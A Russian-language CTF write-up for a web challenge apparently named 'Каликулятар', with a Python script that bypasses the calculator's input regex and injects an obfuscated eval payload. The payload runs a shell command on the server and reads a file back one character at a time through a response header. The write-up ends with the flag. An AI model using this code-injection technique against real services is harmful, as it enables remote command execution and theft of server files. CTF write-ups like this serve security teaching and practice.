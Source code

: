 # Каликулятар (Web, Medium+) by [rolegiv](https://github.com/rolegiv)  [w33d](https://github.com/w3irdd)

![image](https://github.com/rolegiv/CTF-Writeups/assets/147992165/1c514f27-8d8e-435e-9bcd-7c5f1d765797)

Видим калькулятор, попробуем туда запихнуть символы вместо цифр, получаем следующий ответ:

![image](https://github.com/rolegiv/CTF-Writeups/assets/147992165/fb6ae338-fc75-42d7-86d6-20b0a78f5903)

Видим из ответа регулярку которая блокирует наш запрос:
**Debug: !~(^(-\d|\d).*\d$|^\d$)**

Можем обойти её следующим образом:
**0 + PAYLOAD + 0**

Теперь пришло время написать скрипт и автоматизировать весь процесс получения флага и главное учесть, что вывод возможен только в виде цифр с калькулятора.

```
import requests
from urllib.parse import urlencode


i = 0
while True:
    payload = f"""
ord(__import__("os").popen("cat flag_is_here.txt").read()[{i}])
""".strip()
    payload = '+'.join(f'chr({ord(i)})' for i in payload)
    payload = f'0+eval({payload})+0'

    data = urlencode({'statement': payload})
    # print('http://91.200.84.50/?'+data)
    response = requests.get('http://91.200.84.50/?'+data)
    try:
        value = float(response.headers.get('Debug'))
        print(chr(int(value)), end='')
    except ValueError:
        print(response.headers.get('Debug'))
        break
    i += 1
```

Полезная нагрузка в скрипте будет payload
```
f"""ord(__import__("os").popen("cat flag_is_here.txt").read()[{i}])""".strip().
```
Строка payload формируется таким образом, чтобы извлечь ASCII-код символа на позиции i в файле flag_is_here.txt.
ord в свою очередь возвращает ASCII-код символа.

```
__import__("os").popen("cat flag_is_here.txt").read() 
```
выполняет команду cat flag_is_here.txt для чтения содержимого файла.

Так же мы кодируем полезную нагрузку в URL:
```
payload = '+'.join(f'chr({ord(i)})' for i in payload)
payload = f'0+eval({payload})+0'
```

Каждая буква в строке payload преобразуется в вызов chr с ASCII-кодом этой буквы.
Эти вызовы объединяются через +, формируя выражение, которое будет интерпретировано на сервере.
Например, если payload был "ord('A')", то он станет "chr(111)+chr(114)+chr(100)+chr(40)+chr(39)+chr(65)+chr(39)+chr(41)".

По итогу мы реализуем следующее:
Отправляется GET-запрос на сервер, содержащим кодированный payload.
Сервер выполняет переданный payload, извлекает соответствующий символ и возвращает его ASCII-код в заголовке Debug.
Значение из заголовка Debug конвертируется в символ и выводится.
Если значение нельзя преобразовать в число, цикл прерывается.
Счетчик i увеличивается, чтобы перейти к следующему символу.
После всех этих манипуляций, мы получаем флаг

# Флаг
**B0NU${ng1nx_1n7_0v3rfl0w}**



